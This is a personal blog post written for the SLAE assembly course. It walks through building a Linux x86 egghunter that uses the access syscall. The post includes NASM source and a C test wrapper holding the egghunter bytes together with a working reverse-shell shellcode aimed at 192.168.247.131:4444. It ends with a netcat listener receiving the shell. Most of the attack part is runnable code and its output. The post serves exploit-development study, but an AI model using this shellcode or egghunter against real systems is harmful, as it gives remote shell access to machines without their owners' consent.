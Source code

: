 ```yaml
---
layout: post
title: SLAE 3 - Egghunter Shellcode
date:   2019-03-07
categories: [SLAE, Assembly]
---
```

# Creating an egghunter

In the past I have read about egghunters so I know their purpose and the general idea of how they work but I have never tried to create one or walk through actual implementation strategies.  Corelan has a great exploit writing series that involves a piece on egghunters in detail: \
The article references Skape's write up on egghunters and suggests that it should be a good starting point. So, I'll start with Skape's write up, then move to corelan, and then for extra reading.. the heap only egghunter seems interesting.
1. http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf \
2. https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/
3. http://r00tin.blogspot.com/2009/03/heap-only-egg-hunter.html 

- Egg size is best at 8 bytes
  * A 4 byte key that appears 2 times in a row.  This is because the 4 byte key is stored in memory and making it repeat avoids the situation that it runs into it's own stored key instead of the buffer.
  * This also increases speed because instead of searching for two unique keys it can search for 1 key twice in a row
- Some implementations require that the egg is executable assembly because control is passed to the egg and it will continue execution right into the payload after the egg.  
  * One could create an egghunter that jumps 8 bytes ahead of the egg but that creates unnecessary overhead (solution to this is in skape's writeup)
  * The implementation we will use checks the key with scasd which increases the pointer value by 4 each time we use it.  This is exacly what we need and reduces size while improving our egghunter.

- In 32-bit Linux, the best option for traversing memory without crashing would be to abuse the system call functionality.  Most system calls will return the EFAULT error code if it comes across an invalid memory address.  This can then be used to avoid dereferencing that address and keep from crashing the program.
  * A note is that if we find an invalid memory address, we increase the memory address that we are searching for by 0x1000 (PAGE_SIZE).  This is because if the address is invalid, the entire page will be invalid so we can just skip to the next.  If the address is valid but does not match the key/egg, then we increase by one to continue checking the next memory address in line.

Implementation strategy with system call access(2):
- int access(const char *pathname, int mode);

The syscall number can be found at /usr/include/asm/unistd.h
```c
#define __NR_access 33
```

So our steps are:
1. Prepare the key we will be searching for (4 bytes since our egg will be the key 2 times in a row)
2. Prepare the beginning memory address to check
3. Check if address is valid memory space, if not, we can skip by page size (0x1000) since the entire page will be invalid. Then repeat the memory check.
4. Address is valid.. now we check if the address we are at equals our key, if not, increase memory address by 1 and repeat from step 3
5. First half of egg identified, check address + 4 = key again.  If not, increase memory by 1 and repeat from step 3.
6. Egg found, pass execution to our identified address

One issue I ran in to was that ECX not getting zero'd out at the start caused the egghunter to fail when checking for valid addresses.  It would return an error that did not match EFAULT which led to the invalid address getting dereferenced -> segfault.  So, a short term solution was to just add the instruction to also zero out ecx.

```asm
global _start

section .text

_start:
  xor edx, edx
  xor ecx, ecx
new_page:
  or dx, 0xfff

inc_addr:
  inc edx
  
  lea ebx, [edx+0x4]
  
  push byte 0x21
  pop eax
  
  int 0x80    ; checking address
  
  cmp al, 0xf2  ; check if valid
  jz new_page
  
  ; valid address, check for egg
  mov eax, 0x50905090    
  mov edi, edx
  
  ; scasd compares value in eax to value at edi AND increases the pointer by 4 so we can use this to shorten our shellcode
  scasd
  jnz inc_addr
  
  ; match! check again for 2nd half of egg
  scasd
  jnz inc_addr
  
  ; found our egg, pass execution to this address (start of shellcode since scasd increased to AFTER our egg!)
  jmp edi
```

Time to test it..
Compile nasm, check for nulls, add to wrapper.  The wrapper below has the shellcode from the reverse shell (previously made):
```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[] = \
"\x31\xd2\x31\xc9\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char code[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
	printf("Egghunter Length: %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
You can see that we have adjusted the wrapper a little from previous write ups.  The code array has the egg at the beginning now and we have added the egghunter.  Running strace with the egghunter shows that the egghunter is properly searching all the memory addresses. 

Test it:
```
./shellcode
Egghunter Length: 37
Shellcode Length:  87
```
Receiving reverse shell and issuing command:
```
nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.247.131] port 4444 [tcp/*] accepted (family 2, sport 48834)
who
pwoer    tty7    Dec 11 10:13 (:0)
```
